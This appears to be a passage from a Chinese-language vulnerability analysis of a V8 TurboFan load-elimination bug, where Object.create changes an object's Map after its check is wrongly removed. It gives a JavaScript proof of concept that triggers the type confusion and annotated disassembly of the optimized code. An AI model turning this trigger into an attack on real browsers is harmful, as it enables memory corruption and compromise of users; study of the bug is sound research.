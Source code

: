 ![](./img/loadelimination1.png)



为了消除这些冗余的check节点，turbofan要保证这两次check之间不会有操作改变对象的Map，然而要预测这个是很困难的，因为js本身就很复杂，一个没考虑到的操作就会导致错误的消除，比如这个漏洞里的Object.create

### poc

```javascript
function foo(o) {
  o.a;
  Object.create(o);
  return o.b;
}

for(var i = 0;i < 10000;i++){
  let o = {a:42};
  o.b = 43;
  foo(o);
}

let o = {a:42};
o.b = 43;
var res = foo(o);
console.log(res);
```

输出结果不是预期的43，查看生成的优化代码：

```cpp
0x17685fc40db9    59  48bbd1c9f072fb0a0000 REX.W movq rbx,0xafb72f0c9d1    ;; object: 0x0afb72f0c9d1 <Map(HOLEY_ELEMENTS)>
0x17685fc40dc3    63  483958ff       REX.W cmpq [rax-0x1],rbx	// check map
0x17685fc40dc7    67  0f854c000000   jnz 0x17685fc40e19  <+0xb9>
0x17685fc40dcd    6d  488bd8         REX.W movq rbx,rax
0x17685fc40dd0    70  488b75e8       REX.W movq rsi,[rbp-0x18]
0x17685fc40dd4    74  49ba20a62f0e247f0000 REX.W movq r10,0x7f240e2fa620  (CreateObjectWithoutProperties)    ;; off heap target
0x17685fc40dde    7e  41ffd2         call r10			// call object.create
0x17685fc40de1    81  488b4510       REX.W movq rax,[rbp+0x10]
0x17685fc40de5    85  488b4007       REX.W movq rax,[rax+0x7]		// 取得properties
0x17685fc40de9    89  488b400f       REX.W movq rax,[rax+0xf]		// o.b
0x17685fc40ded    8d  488be5         REX.W movq rsp,rbp
```